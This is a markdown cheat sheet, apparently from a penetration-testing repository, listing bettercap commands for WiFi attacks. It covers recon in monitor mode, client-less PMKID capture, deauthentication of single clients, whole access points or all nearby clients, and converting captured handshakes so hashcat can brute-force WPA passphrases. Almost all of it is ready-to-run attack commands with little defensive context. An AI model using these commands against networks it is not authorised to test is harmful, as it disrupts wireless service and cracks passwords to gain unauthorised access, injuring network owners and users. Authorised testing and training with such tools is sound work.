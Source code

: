 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# bettercap

#@WiFi

## Enable monitor mode and channel hop on all supported frequencies

```bash
sudo bettercap -iface wlan0
> wifi.recon on 
# sort by clients (default sorting: "rssi asc")
> set wifi.show.sort clients desc
# set limit for "wifi.show" command
> set wifi.show.limit 50
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; net.show; wifi.show'
> ticker on
# set channels
> wifi.recon.channel 1,11
# start channel hopping again
> wifi.recon.channel clear
```

Other common options:
```bash
# put handshakes in separate folders
> wifi.handshakes.aggregate false
# show manufacturer based on MAC
> set wifi.show.manufacturer true
```

## Client-less PMKID attack (2018)
```bash
# attempt to get PMKID from all access points
> wifi.assoc all
```
```bash
# install hcxtools
apt install hcxtools
# convert PMKIDs to hashcat format
hcxpcaptool -z bettercap-wifi-handshakes.pmkid --filtermac=deadedbeeeef bettercap-wifi-handshakes.pcap
# crack with hashcat
hashcat -m 16800 -a 3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```

## Deauth
```bash
# deauth single client
> wifi.deauth <client_mac>
# deauth all clients on AP
> wifi.deauth <ap_mac>
# deauth all clients
> wifi.deauth *
```

## Convert handshake to hccapx

```bash
hcxpcaptool -o bettercap-wifi-handshakes.hccapx --filtermac=deadedbeeeef bettercap-wifi-handshakes.pcap
```

## Crack with hashcat

```bash
# this example brute-forces 00000000-99999999
hashcat -m 2500 -a3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```